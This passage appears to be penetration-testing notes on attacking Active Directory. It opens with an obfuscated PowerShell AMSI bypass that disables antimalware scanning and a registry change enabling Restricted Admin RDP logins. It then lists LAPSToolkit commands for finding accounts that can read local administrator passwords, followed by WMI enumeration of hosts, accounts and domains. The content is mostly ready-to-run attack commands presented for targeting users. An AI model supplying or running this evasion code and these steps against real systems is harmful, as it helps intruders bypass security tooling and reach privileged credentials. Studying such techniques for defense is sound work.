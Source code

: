 ```powershell
**S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )**

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a powershell functions that leverage PowerView to audit and attack Active Directory environments that have deployed Microsoft's Local Administrator Password Solution (LAPS). It includes finding groups specifically delegated by sysadmins, finding users with "All Extended Rights" that can view passwords, and viewing all computers with LAPS enabled. 

An account that has joined a computer to a domain receives `All Extended Rights` over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help us target specific AD users who can read LAPS passwords.

```powershell
# Search for computers that have LAPS enabled when passwords expire
Get-LAPSComputers

# Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
Find-LAPSDelegatedGroups

# Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute, meaning Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups
Find-AdmPwdExtendedRights
```

See [Windows Management Instrumentation (`WMI`)](135-windows-management-instrumentation-wmi.md).

```powershell
# Prints the patch level and description of the Hotfixes applied
wmic qfe get Caption,Description,HotFixID,InstalledOn	

# Displays basic host information to include any attributes within the list
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List	

# A listing of all processes on host
wmic process list /format:list	

# Displays information about the Domain and Domain Controllers
wmic ntdomain list /format:list	

#Displays information about all local accounts and any domain accounts that have logged into the device
wmic useraccount list /format:list	

# Information about all local groups
wmic group list /format:list	

# Dumps information about any system accounts that are being used as service accounts.
wmic sysaccount list /format:list	
```

